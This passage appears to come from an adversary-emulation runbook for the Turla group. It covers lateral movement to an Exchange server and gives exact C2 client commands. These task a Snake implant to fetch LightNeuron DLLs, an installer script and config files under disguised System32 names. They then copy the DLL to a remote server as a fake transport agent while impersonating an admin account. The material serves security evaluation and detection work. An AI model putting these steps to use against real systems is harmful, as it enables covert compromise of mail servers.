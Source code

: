 ### :microscope: Cited Intelligence

* TBD

## Step 18 - Lateral Movement to Exchange Server

:microphone: `Voice Track:`

Step 18 emulates Turla laterally moving to the Exchange server and installing the LightNeuron implant there.

Snake downloads LightNeuron and associated Powershell installation script and config files, transfers them to the Exchange server, and remotely executes the installation script using WMI to install LightNeuron on the Exchange server.

---

### :biohazard: Procedures

* From the Kali C2 lower terminal window, task Snake to download LightNeuron:
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 4, "file": "ln_transport_agent.dll", "dest":"C:\\Windows\\System32\\mtxconf.dll"}'
```

* Wait 1 minute and then task Snake to download the companion DLL for LightNeuron:
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 4, "file": "n_installer_aux.dll", "dest":"C:\\Windows\\System32\\mtxcli.dll"}'
```

* Wait 1 minute and then task Snake to download the Powershell installation script for LightNeuron.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 4, "file": "msiex.ps1", "dest":"C:\\Windows\\System32\\msiex.ps1"}'
```

* Wait 1 minute and then task Snake to download the LightNeuron email rules file.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 4, "file": "rules.xml", "dest":"C:\\Windows\\System32\\wdr.rules.xml"}'
```

* Wait 1 minute and then task Snake to download the LightNeuron config file.
```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 4, "file": "winmail.dat", "dest":"C:\\Windows\\System32\\perfe009.dat"}'
```

* Wait 1 minute and then task Snake to copy LightNeuron, the rules config file, and the Powershell installation script to the remote target `drebule`, using token impersonation to perform the copy as `ZilvinasAdmin`.
```bash
# Copy LightNeuron
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "copy C:\\Windows\\System32\\mtxconf.dll \"\\\\drebule\\C$\\Program Files\\Microsoft\\Exchange Server\\V15\\TransportRoles\\agents\\Hygiene\\Microsoft.Exchange.Transport.Agent.ConnectionFiltering.dll\"", "runas": "nk\\zilvinasadmin"}'
```
